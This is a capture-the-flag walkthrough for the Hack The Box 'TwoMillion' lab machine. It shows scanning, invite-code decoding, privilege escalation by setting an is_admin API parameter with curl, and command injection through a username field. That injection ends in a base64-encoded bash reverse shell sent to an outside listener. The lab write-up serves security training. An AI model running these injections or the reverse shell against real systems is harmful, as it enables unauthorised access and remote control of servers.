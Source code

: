 
#### NMAP Scan

**Scanning with version discovery, aggressive scan, no ping and default NSE scans**
```
sudo nmap 10.10.11.221 -sV -A -Pn -sC
```

![[Pasted image 20230901015823.png]]

- Here we see two services available: 22/TCP SSH and 80/TCP HTTP
- On port 80 we see "Did not follow redirect to http://2million.htb/"
- We're going to do two things now.
	1) To ensure we can get to this URL, we're going to make an entry in our /etc/hosts file
	2) Use feroxbuster to enumerate all directories in 2million.htb
``` bash
echo "10.10.11.221 2million.htb" | tee -a /etc/hosts
```

- Directory Brute Forcing
- We're going to enumerate all the directories we can access, hence the 200 HTTP Status Code
```bash
feroxbuster -u http://2million.htb -s 200
```
![[Pasted image 20230903010518.png]]

- Three pages to point out are *register*, *login*, *invite*
- Nothing interesting from the first two pages, unto the invite page
- Inspect the web page and select Debugger. Prettify the htb-frontend.min.js and inviteapi.min.js so you can make the code more readable
- In the inviteapi.min.js file, the return statement contains some interesting data
- There appears to be a few functions being called, verifyInviteCode and makeInviteCode
![[Pasted image 20230903011858.png]]
- How do I know these are functions? Well for one, the naming style. It's similar to camel case. Those two are also the only items that describe an action.
- Ok, now we need to find where else these functions are referenced or better yet, find the file that contains their code blocks.
- Copy and paste one of them in search bar in the left pane
![[Pasted image 20230903012104.png]]
- You will find the the function blocks!!
- Here we see that both are making POST requests to verify and generate the invite code
- What tool can we use to send a POST request and query the server? Curl!!
```
curl -sX POST http://2million.htb/api/v1/invite/verify
```
	-s mutes curl, does not show progress or error messages
	X is the request method
	POST this is the request method we're using, since we're sending data to the server

![[Pasted image 20230903013528.png]]
	NOTE: You can learn more about making curl post requests at [reqbin.com](https://reqbin.com/req/c-g5d14cew/curl-post-example)

First request doesn't yield anything, unto to the second

```
curl -sX POST http://2million.htb/api/v1/invite/how/to/generate
```
![[Pasted image 20230903013732.png]]
- What does this message tell us?
	- We have an encrypted message
	- Encryption type is ROT13, given by "encytpe:ROT13"
	- Hint - "Data is encrypted...We should probably check the encryption type in order to decrypt it.."

- Google ROT13, find the website and go to it. ROT13.com
![[Pasted image 20230903014321.png]]

- We get another message "In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate"
- Make another POST request to the specified API address
```bash
curl -sX POST http://2million.htb/api/v1/invite/generate
```

![[Pasted image 20230903014504.png]]

- Here we see what appears to be a base64 encoded string, now decode it with base64 -d
```bash
echo "OE5QVTMtMFRCUDEtTDZIN0QtOTBXQTA=" | base64 -d
8NPU3-0TBP1-L6H7D-90WA0  
```

- We get the invite code! Now let's see if it works, go back to the invite page and submit the invite code. You will then be able to register
- I used user for the username and password. 
- Use @hackthebox.htb for the email domain just to be safe
![[Pasted image 20230903014846.png]]

- And we're in!
![[Pasted image 20230903015018.png]]

- Go the the "Access" page
- Fire up burpsuite
- Download the opevpn ovpn file by selecting "Connection Pack" and observe burpsuite
![[Pasted image 20230903080640.png]]

- Burp intercepts the request and shows us an API call to generate the vpn connection for the user
- ![[Pasted image 20230903081202.png]]
- Curl POST request
``` bash
curl -sX POST http://2million.htb/home/access/api/v1/user/vpn/generate
```

![[Pasted image 20230903081828.png]]

- Here we see the page has been moved
- Using the cookie found when intercepting the request with burp, make another curl request up to the /user level
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -sv http://2million.htb/api/v1/user
```

- 301 Moved Permanently
![[Pasted image 20230903084711.png]]

- Go down one level to /v1...same reponse. Go down one more, to /api
- Success!!
![[Pasted image 20230903085517.png]]

- Return one level up
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -sv http://2million.htb/api/v1 | jq
```

![[Pasted image 20230903091017.png]]
- The API call to /api/v1 shows us the instructions for generating an invite code for a regular user, registering a new user and determining if the user is admin
- Make a curl request to /api/v1/admin/settings/update, but note the method change. PUT will be used instead of the POST like we've been using
```bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX PUT http://2million.htb | jq
```

- We get a 200 OK message, the page is accessible to us! However, look at the message we received at the end. The "Invalid content type", it's expecting a JSON type
- Run the command again but specify the JSON as the application/json type
![[Pasted image 20230903221646.png]]
- After running take a look at the message again, "Missing parameter: email"
- Input your email with the curl command
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX PUT http://2million.htb/api/v1/admin/settings/update -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb"}' | jq
```
![[Pasted image 20230903224712.png]]
- It's asking if we're the admin, so run another curl with this item set to true in the request
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX PUT http://2million.htb/api/v1/admin/settings/update -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":true}' | jq
```

You'll receive an error message stating "Variable is_admin needs to be either 0 or 1"...so, you know what to do...
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX PUT http://2million.htb/api/v1/admin/settings/update -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1}' | jq
```

![[Pasted image 20230903230123.png]]

- We've now verified ourselves as the admin
- Running the following, we determine this to be true
```
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -sv http://2million.htb/api/v1 | jq
```

![[Pasted image 20230903230718.png]]

- Verified user is the admin
- Generate a vpn certificate for this user

``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX POST http://2million.htb/api/v1/admin/vpn/generate -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1}' | jq
```

- New error message "Missing parameter: username"
![[Pasted image 20230903231455.png]]

```bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX POST http://2million.htb/api/v1/admin/vpn/generate -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1, "username":"user"}' 
```

- Our VPN cert has been generated!
![[Pasted image 20230903232814.png]]

- Because these parameter values are being validated, there's a chance for command injection. 
- Append ;ls; to the end of the username and see what we get
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX POST http://2million.htb/api/v1/admin/vpn/generate -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1, "username":"user;ls;"}'
```

- It listed several files!
![[Pasted image 20230903233921.png]]

- Find the user flag
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX POST http://2million.htb/api/v1/admin/vpn/generate -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1, "username":"user;find / -type f -name user.txt;"}'
```

![[Pasted image 20230903234247.png]]

- Using the find command, we've found the user.txt flag, however, when I tried cat'ing the file, nothing worked. 
- Initiate your netcat listener and execute your reverse shell

```
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX POST http://2million.htb/api/v1/admin/vpn/generate -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1, "username":"user;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41Lzk5OTkgMD4mMQo= | base64 -d | bash ;"}'
```

- And we have a shell!
![[Pasted image 20230904000916.png]]

